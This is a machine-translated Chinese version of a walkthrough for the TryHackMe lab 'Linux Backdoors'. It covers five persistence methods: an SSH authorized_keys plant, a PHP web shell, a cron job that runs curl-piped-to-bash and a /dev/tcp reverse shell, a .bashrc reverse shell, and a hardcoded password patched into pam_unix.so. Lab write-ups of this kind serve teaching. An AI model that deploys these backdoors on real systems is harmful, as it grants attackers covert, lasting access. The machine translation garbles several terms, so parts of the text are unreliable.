





# Linux 后门试用版

> 原文：<https://infosecwriteups.com/linux-backdoors-tryhackme-writeup-d3817a23fd1c?source=collection_archive---------3----------------------->

这是一篇关于 Tryhackme room“Linux 后门”的文章



https://tryhackme.com/room/linuxbackdoors

**房间链接:**[https://tryhackme.com/room/linuxbackdoors](https://tryhackme.com/room/linuxbackdoors)
**注:此房免费**

# 任务 1:介绍

嘿大家好！

这个房间专门用于学习常见的 Linux 后门技术！后门是我们可以做的简单的事情，以确保我们对机器的一致访问。

因此，即使机器重启、关机或其他什么，我们仍然可以访问它。

这些并不是真正的漏洞，而只是保持您在目标上的访问权限的方法:)

要重现这个房间里展示的所有后门技术，你可以简单地在你自己的机器上尝试它们或者使用“THM 攻击箱”

更安全，即使你搞砸了也没关系。

黑客快乐！

# 任务 2: SSH 后门

我们要看的第一个后门是:SSH 后门

ssh 后门本质上包括将我们的 ssh 密钥留在某个用户的主目录中。通常用户是根用户，因为它拥有最高的特权。

所以让我们用 ssh-keygen 生成一组 ssh 密钥！

为此，只需运行 ssh-keygen 命令，如下所示！



[https://tryhackme.com/room/linuxbackdoors](https://tryhackme.com/room/linuxbackdoors)

现在我们有两把钥匙了。1 个私钥和 1 个公钥，我们现在可以转到/root/。ssh，把我们的公钥留在那里。不要忘记将公钥重命名为:authorized_keys

如果目录。ssh 不存在，您总是可以使用以下命令创建它:“mkdir。ssh "

现在我们已经离开了我们的后门，我们可以简单地登录为根！

在这样做之前，使用:chmod 600 id_rsa 赋予私钥适当的权限。

这是必要的，因为如果我们不这样做，ssh 会抱怨密钥上的权限不够安全，并且很可能不让我们使用它。

在给密匙适当的权限后，我们可以这样做:“ssh -i id_rsa root@ip”来登录我们想要的机器！

关于这个后门有一点需要注意:

1.  这个后门一点都不隐蔽。任何拥有适当权限的人都可以完全删除我们的 ssh 公钥或 authorized_keys 文件。

**问题 1:** 我们将密钥放在什么目录下？

> **答案:。宋承宪**

我们在 ssh 中使用什么标志来显示我们的私钥？

> **回答:——我**

# 任务 3: PHP 后门

现在让我们进入第二个后门:PHP 后门！

如果您在 Linux 主机上获得了 root 访问权限，您很可能会在 web 根目录中搜索凭证和/或任何有用的信息。

web 根目录通常位于:/var/www/html

您必须知道的是，无论您在/var/www/html 中留下什么，每个人都可以在他们的浏览器中使用。

既然您已经知道了这一点，那么您可以尝试创建一个任意名称的 php 文件，并将这段代码放入其中:

```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

这段代码只接受参数“cmd ”,并将执行赋予该参数的任何内容。
注意，我们使用了:" **$_REQUEST['cmd'])** ，这意味着您可以在 GET 或 POST 数据中传递该参数。
既然文件已经保存并准备好，我们可以尝试查询它。
如果您将该文件放在**/var/www/html/shell . PHP**|您应该可以使用[**http://IP/shell . PHP**](http://ip/shell.php)
直接访问它；如果您将 shell 放在了其他地方，请查看它所在的目录，然后尝试通过以下方式访问它:[**http://IP/some directory/shell . PHP**](http://ip/somedirectory/shell.php)

这里有一些方法可以让这个后门变得更加隐蔽:

1.尝试将这段代码添加到/var/www/html 中已经存在的 php 文件中。将它更多地添加到文件中间肯定会使我们的恶意行为更加隐秘。

2.将“cmd”参数更改为其他值…实际上是任何值…只是将其更改为不常见的值。“Cmd”非常普遍，在黑客社区中已经非常有名。

# 任务 4: CronJob 后门

现在让我们进入第三个后门技术！

这个后门包括创建一个 cronjob！

如果您查看一下您的 cronjobs 文件，它是/etc/cronjob，您会看到类似这样的内容:



[https://tryhackme.com/room/linuxbackdoors](https://tryhackme.com/room/linuxbackdoors)

这表示计划在某个时间在您的机器上运行的所有任务。

一旦您在任何主机上获得 root 访问权限，您就可以添加任何计划的任务。你甚至可以配置一个任务，每分钟都有一个反向 shell 发送给你。这正是我们要做的。

注意任务顶部的两个字母:“m 和 h”

这些字母表示任务应该每小时还是每分钟运行。

在上面的例子中，你可以看到在“h”下面有一个“*”符号。这意味着以下任务将每小时运行一次。

现在让我们回到我们的后门！

将这一行添加到 cronjob 文件中:

* * * * * root curl http://<yourip>:8080/shell | bash</yourip>

请注意，我们给所有内容都加了一个“*”星号。这意味着我们的任务将每分钟、每小时、每天等等运行。

我们首先使用“curl”下载一个文件，然后通过管道将其传输到“bash”

我们使用的“shell”文件的内容很简单:

— — — — — — — — — — — — — — — — — — — — — — — — -

#!/bin/bash

bash -i >& /dev/tcp/ip/port 0>&1

— — — — — — — — — — — — — — — — — — — — — — — — —

我们必须运行一个 HTTP 服务器来服务我们的 shell。

您可以通过运行“python3 -m http.server 8080”来实现这一点

一旦我们的 shell 被下载，它将被“bash”执行，我们将得到一个 shell！

*不要忘记使用“nc -nvlp <port>”监听您指定的端口*</port>

请注意，这个后门并不是真正隐藏的，因为每个人都可以通过查看/etc/crontab 内部看到它。

**问题 1:** 字母“m”在 cronjobs 中是什么意思？

> **答案:分钟**

**q . 2:**cron jobs 中的字母“h”是什么意思？

> **答案:小时**

# 任务 5:。巴沙尔后门

现在让我们进入:“。巴沙尔“借壳！

如果用户使用 bash 作为他们的登录 shell。bashrc”文件在交互式会话启动时被执行。

因此，如果您知道有用户经常登录他们的系统，您可以简单地运行这个命令，将您的反向 shell 包含到他们的。巴沙尔”。

```
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

有一点很重要，那就是要时刻准备好 nc 监听器，因为你不知道用户什么时候会登录。这种攻击非常卑鄙，因为没有人真正想过检查他们的”。bashrc”文件。
另一方面，您无法确切知道是否有任何用户会真正登录到他们的系统，因此您可能会等待很长一段时间。

# 任务 6: pam_unix.so 后门

让我们现在进入这个房间的第五个也是最后一个后门！

除了这个房间中显示的 5 个后门之外，还有许多许多后门可用！

在创建这个房间时，我发现一个非常有用的资源: [**链接**](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)

好了，现在到第五个后门。

我们要查看的后门是:pam_unix.so 后门！

如果您不知道文件“pam_unix.so”是什么，那么它只是 Linux 中负责认证的许多文件之一。

所以让我们真正进入后门！



[https://tryhackme.com/room/linuxbackdoors](https://tryhackme.com/room/linuxbackdoors)

如此处所示，文件“pam_unix.so”使用“unix_verify_password”函数来验证用户提供的密码。

现在我们来看看这张截图:



[https://tryhackme.com/room/linuxbackdoors](https://tryhackme.com/room/linuxbackdoors)

我们可以看到，我们在代码中添加了新的一行:“if (strcmp(p，" 0xMitsurugi ")！= 0 )"

好吧，如果这段代码一开始让你感到困惑，不要担心！

我们一起来分解它！

所以首先，我们要知道“strcmp”这个函数是做什么的。

这个函数基本上比较 2 个字符串。

在上面的截图中，我们比较了变量“p”和字符串“0xMitsurugi”。

变量“p”代表用户提供的密码。换句话说，就是用户提供的密码。

你也可以看到”！=0”。这意味着“如果不成功”。因此，如果变量“p”(用户提供的密码)和字符串“0xMitsurugi”不同，将使用函数“unix_verify_password”。

但另一方面，如果变量“p”(用户提供的密码)和字符串“0xMitsurugi”相同，则认证成功。我们使用“PAM _ SUCCESS”来标记成功

因此，这个后门本质上是将您自己的密码添加到“pam_unix.so”中

因为您知道添加到文件中的密码，所以在从“pam_unix.so”中删除该密码之前，您总是能够使用该密码进行身份验证

所以让我们做一点回顾:

假设用户键入密码“password123”并尝试进行身份验证。我们将他的密码(password123)与字符串“0xMitsurugi”进行比较。

如果这两个字符串匹配，则身份验证成功。但是这两个字符串不匹配，所以身份验证将不会

成功，并将依赖于“unix_verify_password”函数。当使用“unix_verify_password”函数进行身份验证时，该函数需要

来自“/etc/shadow”的用户密码，并将其与用户提供的密码进行比较。这就是预期的身份验证系统应该如何工作。

但是，这种技术被称为后门，因为您添加了自己的密码，只要没有人从“pam_unix.so”中取出它，您就可以一直使用它。

这个后门真的很难发现，因为再一次，没有人真的想去调查这样的文件。

由于这种方法慢慢变得越来越受欢迎，你可能无法每次都这样做，因为每个人都会慢慢但肯定地了解如何保护自己。

使用的资源:[http://0x 90909090 . blogspot . com/2016/06/creating-back door-in-PAM-in-5-line-of . html](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html)

这里有一个 GitHub 库，其中包含一个脚本，可以自动完成创建后门的过程:【https://github.com/zephrax/linux-pam-backdoor】T2

你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)


如需更多演练，请在出发前继续关注…
…

访问我的其他演练:-

感谢您花时间阅读我的演练。
如果您觉得有帮助，请点击👏按钮👏(高达 40 倍)并分享
它来帮助其他有类似兴趣的人！+随时欢迎反馈！